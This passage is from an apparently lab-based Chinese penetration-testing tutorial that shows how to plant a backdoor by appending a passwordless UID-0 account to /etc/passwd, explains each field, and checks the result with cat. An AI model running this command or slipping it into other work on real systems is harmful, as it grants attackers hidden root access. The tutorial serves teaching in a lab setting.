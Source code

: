 明白了上面的基础知识，下面我们将写一个简单的后面，并通过后门访问渗透目标主机：

在命令行终端中，输入命令：

```
# 创建无口令账户登录后门
echo 'shiyanlou1234::0:0::/:/bin/sh' >> /etc/passwd
```
这里要注意了，虽然短短的一行命令，但是这里面对小白来说，在第一看到的时候还是云里雾里的，每个字段所代表的含义，请和上面的表格仔细对比一下，而最后一个字段的 `/bin/sh` 中 `sh` 是这个，是因为我们攻击的目标系统是这个，而网上的一些其他教程，写成 `/bin/csh` 不是他们写错，是因为他们攻击的目标主机的 Shell 是 CShell。在终端输入命令后，截图如下：


![图片描述](../imgs/1480558957160.png-wm.png)

查看是否输入成功，在终端中，输入命令，查看文件内容：

```
# 查看文件 /etc/passwd 内容
cat /etc/passwd
```

![图片描述](../imgs/1480559053660.png-wm.png)

回车，你将会看到如下：

